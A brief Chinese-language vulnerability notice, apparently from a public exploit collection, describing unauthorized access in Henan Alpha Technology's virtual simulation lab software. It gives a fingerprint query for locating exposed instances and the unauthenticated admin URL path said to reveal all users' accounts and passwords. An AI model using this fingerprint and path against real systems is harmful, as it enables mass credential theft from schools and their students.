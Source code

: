 # 阿尔法科技 虚拟仿真实验室 未授权访问漏洞

## 漏洞描述

阿尔法科技 虚拟仿真实验室 存在未授权访问漏洞，通过访问构造的Url可以获取敏感信息

## 漏洞影响

```
虚拟仿真实验室
```

## 网络测绘

```
body="河南阿尔法科技有限公司"
```

## 漏洞复现

未授权的Url为

```plain
/admin/student/studentlist.html?page=1
```

![](./images/202202101929331.png)



成功获取所有用户的账号密码信息

## 参考文章

http://www.0dayhack.net/index.php/1702/